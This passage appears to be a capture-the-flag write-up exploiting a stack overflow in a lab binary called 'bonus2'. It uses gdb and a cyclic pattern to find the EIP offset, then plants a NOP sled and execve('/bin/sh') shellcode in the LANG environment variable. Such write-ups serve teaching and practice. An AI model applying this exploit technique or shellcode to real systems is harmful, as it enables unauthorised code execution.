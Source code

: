 ```bash
0xbfffff1f:	 "PWD=/home/user/bonus2"
0xbfffff35:	 "LANG=fi"
0xbfffff3d:	 "LINES=60"
0xbfffff46:	 "HOME=/home/user/bonus2"
```
We can see that the `LANG` environment variable is at the address `0xbfffff35`.

### 4.3. Find the offset to overwrite the EIP register

We will use a pattern generate by `Wiremask` to find the offset to overwrite the EIP register.
```bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

We run the program with 40 bytes or more in the first argument, and the pattern in the second argument.
```bash
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
We examine the memory to find the offset.
```bash
(gdb) info registers
...
eip            0x41366141	0x41366141
...
```

The offset is `18`. So, with `fi` in `LANG` environment variable, we can overwrite the EIP register with the address of the shellcode after 18 bytes in the second argument.

### 4.4. Build the final exploit

We inject the shellcode in the `LANG` environment variable with `NOP` sled to make sure the shellcode is executed.
```bash
export LANG=$(python -c 'print("fi" + "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```
We set a breakpoint at the address `0x080485ab` (just after the call to `LANG` environment variable) and we run the program with this environment variable setted to find the address of the `LANG` environment variable.
```bash
(gdb) break *0x080485ab
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBB
```
We examine the memory to find the address of the `LANG` environment variable.
```bash
(gdb) info proc mappings
(gdb) x/20s *((char **)environ)
...
0xbffffe34:	 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffe81:	 "MAIL=/var/mail/bonus2"
0xbffffe97:	 "_=/usr/bin/gdb"
0xbffffea6:	 "PWD=/home/user/bonus2"
0xbffffebc:	 "LANG=fi\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220j\vX\231Rh//shh/bin\211\343\061\311\315\200"
...
```

